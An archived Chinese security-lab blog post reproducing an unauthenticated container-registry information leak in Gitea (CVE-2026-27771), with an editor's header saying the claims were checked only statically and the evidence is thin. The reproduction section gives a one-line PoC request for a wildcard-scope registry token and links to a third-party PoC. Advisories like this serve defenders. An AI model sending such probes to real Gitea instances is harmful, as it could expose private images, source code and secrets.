


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：声称&lt;1.26.2，修复1.26.2；内置镜像仓库及受保护私有镜像

代码与实验材料：仅匿名请求 /v2/token?service=container_registry&amp;scope=*；没有文本化 token 权限、catalog 或私有镜像拉取验证

来源证据范围：弥天实验室2026-06-18，链接官方1.26.2 release及第三方PoC

- **适用与权限边界（1）**：返回token不等于证明私有资源泄露；依据：只写通过响应判断漏洞存在，响应为图片；没有用token访问本来禁止的catalog/pull或对照无权限结果。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **来源与引用处置（2）**：修复和缓解标签混淆及广告污染；依据：正式升级置于临时缓解方案；多次装饰图片和组织介绍。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  【成功复现】Gitea未授权信息泄露漏洞(CVE-2026-27771)  
原创 弥天安全实验室
                    弥天安全实验室  弥天安全实验室   2026-06-18 13:36  
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
  
  
  
  
**0x01漏洞介绍**  
  
  
  
  
  
Gitea是一款开源自托管的版本控制协作平台，提供代码托管、项目管理、容器镜像托管等功能，支持用户自定义部署私有实例，同时支持创建公有、私有代码和镜像仓库，广泛应用于企业内部开发协作与版本管理场景。  
  
Gitea 内置 Container Registry 存在访问控制缺陷。未授权远程攻击者可通过 registry token 与 catalog/pull 接口访问原本应受保护的容器镜像信息，可能导致私有容器镜像、源码产物、配置和敏感信息泄露，进而泄露源代码、密钥、环境配置和生产基础设施信息。  
  
  
****  
  
  
  
  
**0x02影响版本**  
  
  
Gitea < 1.26.2  
  
  
  
  
  
**0x03漏洞复现**  
  
  
1.访问环境  
  
  
  
  
2.漏洞复现  
  
poc  
```
GET /v2/token?service=container_registry&scope=* HTTP/1.1
Host: 127.0.0.1:15001
```  
  
通过响应判断漏洞存在  
  
  
  
  
  
  
  
**0x04修复建议**  
  
  
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：  
  
临时缓解方案  
  
升级 Gitea 至 1.26.2 或更高版本；确认内置 Container Registry 的访问控制策略已正确生效；对曾暴露的私有镜像、密钥和部署凭据进行排查和轮换。  
  
  
建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！     
```
https://github.com/go-gitea/gitea/releases/tag/v1.26.2
https://github.com/portbuster1337/CVE-2026-27771
```  
  
  
弥天简介  
  
学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。  
  
口号 网安引领时代，弥天点亮未来  
  
  
  
  
  
   
  
  
知识分享完了  
  
喜欢别忘了关注我们哦~  
  
学海浩茫，  
  
予以风动，  
  
必降弥天之润！  
  
  
   弥  天  
  
安全实验室  
  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
